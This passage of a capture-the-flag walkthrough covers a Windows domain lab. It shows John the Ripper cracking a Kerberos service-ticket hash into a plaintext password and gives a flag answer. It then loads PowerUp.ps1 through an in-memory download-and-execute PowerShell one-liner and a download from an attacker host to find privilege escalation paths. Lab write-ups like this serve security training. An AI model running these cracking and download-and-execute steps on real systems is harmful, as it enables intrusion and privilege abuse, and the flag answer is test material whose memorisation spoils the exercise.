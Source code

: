Note that we could also use John:

~~~
$ ./john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rubenF124        (?)
1g 0:00:00:01 DONE (2020-06-21 20:20) 0.5405g/s 2233Kp/s 2233Kc/s 2233KC/s ruby1213..ruben4412
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

hashcat has found the password: `rubenF124`

## #3.4

**Login as this user. What is his flag?**

When connecting as `fela` in RDP, there is a file named `flag.txt` on the desktop.

Answer: `flag{bde1642535aa396d2439d86fe54a36e4}`

# [Task 4] Privilege Escalation

We will use a PowerShell enumeration script to examine the Windows machine. We can then determine the best way to get Administrator access.

## #4.1

**We will run `PowerUp.ps1` for the enumeration.**

**Lets load `PowerUp1.ps1` into memory.**

**`iex​(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1')`**

Let's invoke the script:

~~~
C:\Users\fela.CORP>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\fela.CORP> Invoke-WebRequest -Uri 'http://10.9.0.54:8000/PowerUp.ps1' -OutFile 'PowerUp.ps1'
PS C:\Users\fela.CORP> . .\PowerUp.ps1
PS C:\Users\fela.CORP> Invoke-AllChecks

[*] Running Invoke-AllChecks

[*] Checking if user is in a local group with administrative privileges...
[+] User is in a local group that grants administrative privileges!
[+] Run a BypassUAC attack to elevate privileges to admin.

[*] Checking for unquoted service paths...

[*] Checking service executable and argument permissions...

[*] Checking service permissions...

[*] Checking %PATH% for potentially hijackable .dll locations...

HijackablePath : C:\Users\fela.CORP\AppData\Local\Microsoft\WindowsApps\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Users\fela.CORP\AppData\Local\Microsoft\WindowsApps\\wlbsctrl.dll'
~~~